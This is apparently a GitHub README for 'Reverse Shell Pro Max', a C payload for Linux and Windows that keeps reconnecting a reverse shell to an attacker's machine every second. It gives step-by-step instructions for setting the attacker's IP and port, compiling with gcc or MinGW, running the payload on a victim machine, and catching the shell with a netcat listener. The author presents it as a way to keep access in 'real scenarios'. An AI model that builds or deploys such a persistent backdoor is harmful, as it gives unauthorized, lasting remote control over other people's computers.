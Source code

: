 # Reverse Shell Pro Max (Project_RSPM)

**Reverse Shell Pro Max (RSPM)** is a persistent reverse shell payload designed to provide continuous, automatic reverse shell connections to an attacker’s machine. Unlike traditional reverse shell tools like **msfvenom**, which only provide a one-time connection, **RSPM** keeps attempting to reconnect every second if the connection is lost, ensuring reliable access for attackers.

---

## Project Structure

The repository is structured as follows:


- **Project_RSPM_UNIX**: Contains C code designed to work on **Linux** systems.
- **Project_RSPM_WIN**: Contains C code designed to work on **Windows** systems.

---

## Features

- **Persistent Connection**: Continuously sends connection requests every second until successful.
- **Automatic Reconnection**: If the connection drops, the reverse shell payload automatically attempts to reconnect.
- **Target Specific IP and Port**: Easily change the IP and port where the reverse shell connects.
- **Works on Linux and Windows**: Separate codebases for each platform, with instructions for compiling and running.

---

## Installation and Usage

### 1. **Linux**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_6th_try_somehow_working.c`) located in the **Project_RSPM_UNIX** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Compile the C Code
- Compile the C code using `gcc`:

    ```bash
    gcc -o reverse_shell reverse_shell_6th_try_somehow_working.c
    ```

#### Step 3: Run the Payload
- Run the compiled reverse shell executable on the victim machine:

    ```bash
    ./reverse_shell
    ```

#### Step 4: Listen for Connections
- On your attacker's machine, use `nc` or another listening tool to catch the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

### 2. **Windows**

#### Step 1: Modify IP and Port
- Open the C file (`reverse_shell_3rd_try_somehow_working.c`) located in the **Project_RSPM_WIN** folder.
- Modify the `IP` and `PORT` to match the attacker's machine IP and desired port.

    ```c
    #define IP "192.168.100.215" // Replace with your attacker's IP
    #define PORT 4444            // Replace with your desired port
    ```

#### Step 2: Install MinGW
- Install MinGW for compiling C code on Windows. If you don't have it installed, use the following command:

    ```bash
    sudo apt install mingw-w64
    ```

#### Step 3: Compile the C Code for Windows
- Compile the C file using the MinGW cross-compiler:

    ```bash
    x86_64-w64-mingw32-gcc reverse_shell_3rd_try_somehow_working.c -o reverse_shell.exe -lws2_32 -mwindows
    ```

#### Step 4: Run the Payload
- Run the compiled executable on the victim’s Windows machine:

    ```bash
    ./reverse_shell.exe
    ```

#### Step 5: Listen for Connections
- On the attacker's machine, listen for the reverse shell connection:

    ```bash
    nc -lvnp 4444
    ```

---

# Contributors

- ![blackhatvenomm](https://avatars.githubusercontent.com/u/165780376?v=4) [blackhatvenomm](https://github.com/blackhatvenomm)

Feel free to open an issue or submit a pull request for improvements or new features. Contributions are welcome!

---

## Incomplete...

This project is incomplete and i made it as i am just a starter to code in c and its somehow working but hope some experienced c programmer will modify it or contribute here...

## ScriptKiddy -> TheGreen
Just random thought came to my mind while using msfvenom payload that if we are disconnected mistakenly, then we have to re-run the payload on the victim's machine. In testing, it's fine, but in a real scenario, it's simply not possible to re-run the payload or something like that situation may occur. I thought about this and I don't know if something like this is already available on GitHub or somewhere on the internet, but this repo is just a ScriptKiddy thought and made so that after running it once, we can connect to it whenever we want. If we are connected, it doesn't send the connection request, and if disconnected, it starts sending the connection request every second and loop...

